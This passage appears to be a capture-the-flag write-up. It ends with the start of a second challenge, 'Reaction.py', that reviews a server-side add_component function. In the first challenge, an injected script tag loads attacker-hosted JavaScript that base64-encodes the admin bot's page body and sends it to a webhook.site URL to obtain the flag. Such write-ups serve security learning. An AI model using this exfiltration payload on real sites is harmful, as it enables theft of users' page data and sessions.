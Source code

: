 ```
<script src=http://SERVER/app.js 
```
How it's interpreted: 

![TASK](https://imgur.com/LOe0BL1.png)

And we host app.js file on our server with the following content , the bot didn't have fetch api so I used XMLHttpRequest.

```javascript
function httpGet(theUrl)
{
    var xmlHttp = new XMLHttpRequest();
    xmlHttp.open( "GET", theUrl, false ); // false for synchronous request
    xmlHttp.send( null );
    return xmlHttp.responseText;
}
httpGet("https://webhook.site/b494ae6c-c6f2-4ea2-b915-47e22ed4c076/?a="+btoa(document.body.innerHTML));

```

Finally you only have to report the share to the admin and get the beloved flag :D

## Reaction.py ##

![TASK](https://imgur.com/b674MEG.png)

We are provided with the source code of the website, it's a simple website with a register and login functionalities, after registering you will have a page where you can crete some predefined modules. This the most interesting function: 

![TASK](https://imgur.com/QZFghFT.png)

```python
def add_component(name, cfg, bucket):
    if not name or not cfg:
        return (ERR, "Missing parameters")
    if len(bucket) >= 2:
        return (ERR, "Bucket too large (our servers aren't very good :((((()")
    if len(cfg) > 250:
        return (ERR, "Config too large (our servers aren't very good :((((()")
    if name == "welcome":
        if len(bucket) > 0:
            return (ERR, "Welcomes can only go at the start")
        bucket.append(
            """
            <form action="/newcomp" method="POST">
                <input type="text" name="name" placeholder="component name">
                <input type="text" name="cfg" placeholder="component config">
                <input type="submit" value="create component">
            </form>
            <form action="/reset" method="POST">
                <p>warning: resetting components gets rid of this form for some reason</p>
                <input type="submit" value="reset components">
            </form>
            <form action="/contest" method="POST">
                <div class="g-recaptcha" data-sitekey="{}"></div>
                <input type="submit" value="submit site to contest">
            </form>
            <p>Welcome <strong>{}</strong>!</p>
            """.format(
                captcha.get("sitekey"), escape(cfg)
            ).strip()
        )
```